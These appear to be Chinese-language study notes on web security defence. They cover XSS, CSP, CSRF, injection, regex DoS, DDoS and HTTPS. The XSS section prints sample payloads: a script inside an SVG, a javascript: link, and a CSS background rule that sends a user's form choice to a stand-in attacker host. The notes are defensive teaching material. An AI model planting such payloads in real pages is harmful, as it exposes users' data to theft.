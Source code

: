# 防御

### xss
 - 永远不信任用户的提交内容
 - 不要将用户提交内容直接转换成DOM
**防御工具**
1. 前端
 - 主流框架默认防御 react 、vue
 - google-closure-library
2. 服务端（node）
 - DOMPurify
3. 必须动态生成DOM时
 - string -> DOM
 使用`new DOMParser()`转义
 - 上传 svg
```
<svg>
  <script>alert("xss");</script>
</svg>
```
需要对 `svg` 文件进行扫描
 - 自定义跳转链接
```
<a href="javascript:alert('xss')></a>
```
需要做好过滤
 - 自定义样式
```
input[type=radio].income-gt10k:checked{
    background: url("https://hacker.com/?income=gt10k")
}
```
也会造成 xss 攻击


#### Same-origin Policy 同源策略 sop
协议(http https)、域名、端口
跨越（非同源）
#### Content Security Policy 内容安全策略 csp
指定哪些源是安全的，安全源的脚本可以执行，否则直接报错；
对eval + inline script 说no
- 服务器端
```
Content-Security-Policy: script-src 'self'
Content-Serurity-Policy: script-src 'self' https://domain.com
```
- 浏览器 meta
```
<meta http-equiv="Content-Security-Policy" content="script-src self">
```

### CSRF的防御
1. 限制请求来源
   - Origin（同源请求中，GET+HEAD不发送）
   - Referer
2. token
3. iframe 攻击
   - X-Frame-Options: DENY/SAMEORIGIN
4. anti-pattern
   GET!==GET+POST
5. SameSite Cookie
   - Set-Cookie: SameSite=None; Secure;
  
| SameSite | CORS |
| ---- | ---- |
| Cookie 发送 | 资源读写(HTTP 请求) |
| domain vs 页面域名 | 资源域名 vs 页面域名 |
| -- | 白名单 |

防御 CSRF 的正确姿势 应该是在服务端做一个中间件，中间件的任务就是做CSRF防御。

### Injection 注入的防御
1. 最小权限原则
   - sudo || root
2. 建立允许名单 + 过滤
   - rm
3. 对 URL 类型参数进行协议、域名、IP等限制 
   - 访问内容

#### Regex DoS 防御 Dos
1. Code Review （❌ /(ab*)+/ 这种贪婪模式）
2. 代码扫描 + 正则性能测试
3. ❌ 用户提供的使用正则

#### DDoS 防御
1. 过滤
   - 负载均衡
   - API 网关
   - CDN
2. 抗量
   - 快速自动扩容
   - 非核心服务降级
   - -CDN

#### 传输层 -- 防御中间人
1. 使用 https（http + TLS）
   - 可靠性：加密
   - 完整性：MAC验证
   - 不可依赖性： 数字签名

